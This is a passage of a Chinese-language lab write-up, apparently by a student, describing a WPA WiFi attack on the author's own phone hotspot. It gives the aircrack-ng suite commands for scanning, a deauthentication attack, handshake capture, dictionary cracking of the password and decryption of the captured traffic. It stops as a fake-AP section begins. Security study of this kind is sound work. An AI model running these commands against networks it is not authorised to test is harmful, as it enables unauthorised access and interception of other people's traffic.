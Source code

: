   ![image-20250101155218904](../AppData/Roaming/Typora/typora-user-images/image-20250101155218904.png)

#### 2.2 对热点进行扫描操作并监听

- 对周边的WIFI热点进行扫描，airodump-ng wlan0mon，发现小米手机的热点（我自己的手机热点）Xiaomi 12X

  ![image-20250101161548221](../AppData/Roaming/Typora/typora-user-images/image-20250101161548221.png)

- 选定AP工作在信道6，将网卡切换到信道6 ，iwconfig wlan0 channel 6

  ![image-20250101155631822](../AppData/Roaming/Typora/typora-user-images/image-20250101155631822.png)

- 对Xiaomi 12X进行数据监听收集：

  irodump-ng --bssid 2A:4A:FD:A3:E5:16 -c 6 -w wifipwd wlan0mon 

  ![image-20250101161816663](../AppData/Roaming/Typora/typora-user-images/image-20250101161816663.png)

#### 2.3 发动取消认证攻击

- 针对已连接的客户端，使用取消认证攻击，让客户端重新连接路由器，以便快速获取四步握手数据包：

  aireplay-ng -0 1 -a 2A:4A:FD:A3:E5:16 -c E8:FB:1C:C7:1E:0D wlan0mon

  ![image-20250101162037271](../AppData/Roaming/Typora/typora-user-images/image-20250101162037271.png)

- 此时原窗口可以看到提示WPA hansdshake

  ![image-20250101162106756](../AppData/Roaming/Typora/typora-user-images/image-20250101162106756.png)

- ctrl+c 结束抓包，得到的文件保存在wifipwd-08.cap中 

#### 2.4 暴力破解口令

- 使用预先准备的爆破字典，进行暴力破解，得到该WIFI的接入口令980308040515：

  aircrack-ng -w key.txt wifipwd-08.cap 

  ![image-20250101162312773](../AppData/Roaming/Typora/typora-user-images/image-20250101162312773.png)

#### 2.5 解码流量数据包并分析

- 用WiFi密码解密原pcap包，获得新pcap包：  airdecap-ng -e Xiaomi12 -p 980308040515 wifipwd-08.cap 

  ![image-20250101162437136](../AppData/Roaming/Typora/typora-user-images/image-20250101162437136.png)

- wireshark 打开新的解密后的流量数据包，分析用户数据

  ![image-20250101162518982](../AppData/Roaming/Typora/typora-user-images/image-20250101162518982.png)

### 3. 无线WIFI假冒AP攻击与流量劫持

#### 3.1 配置开放式假冒AP

- 安装hostpad，输入命令：sudo apt-get install hostapd
